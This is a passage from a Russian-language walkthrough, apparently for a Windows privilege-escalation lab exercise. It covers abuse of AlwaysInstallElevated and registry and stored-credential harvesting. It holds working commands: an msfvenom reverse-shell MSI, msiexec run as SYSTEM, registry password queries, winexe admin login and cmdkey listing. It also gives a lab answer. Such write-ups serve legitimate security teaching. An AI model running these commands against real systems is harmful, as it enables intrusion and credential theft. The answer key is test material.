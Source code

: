 Обратите внимание, что оба ключа установлены на 1 (0x1).

На Kali создайте обратную оболочку Windows Installer (reverse.msi) с помощью msfvenom.  Обновите IP-адрес LHOST соответствующим образом:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`

Перенесите файл reverse.msi в каталог C:\PrivEsc в Windows (используйте метод сервера SMB, описанный ранее).

Запустите прослушиватель в Kali, а затем запустите установщик, чтобы запустить обратную оболочку, работающую с привилегиями SYSTEM:

`msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

### Ответьте на вопросы ниже
Прочитайте и следуйте указаниям выше.
```commandline
Ответ не нужен
```

## Задание 9
(Иногда по какой-то причине пароль не сохраняется в реестре. В этом случае используйте в качестве ответа следующее: 
password123 ) 

В реестре можно искать ключи и значения, содержащие слово «пароль»:

`reg query HKLM /f password /t REG_SZ /s`

Если вы хотите сэкономить время, выполните запрос по этому конкретному ключу, чтобы найти учетные данные 
администратора AutoLogon: 

`reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`

В Kali используйте команду winexe, чтобы вызвать командную строку, запущенную с правами администратора (обновите 
пароль на тот, который вы нашли):

`winexe -U 'admin%password' //MACHINE_IP cmd.exe`

### Ответьте на вопросы ниже
Какой пароль администратора вы нашли в реестре?

```commandline
password123
```

## Задание 10
Перечислите все сохраненные учетные данные:

`cmdkey /list`

Обратите внимание, что учетные данные для пользователя "admin" сохранены. Если нет, запустите скрипт 
`C:\PrivEsc\savecred.bat`, чтобы обновить сохраненные учетные данные.

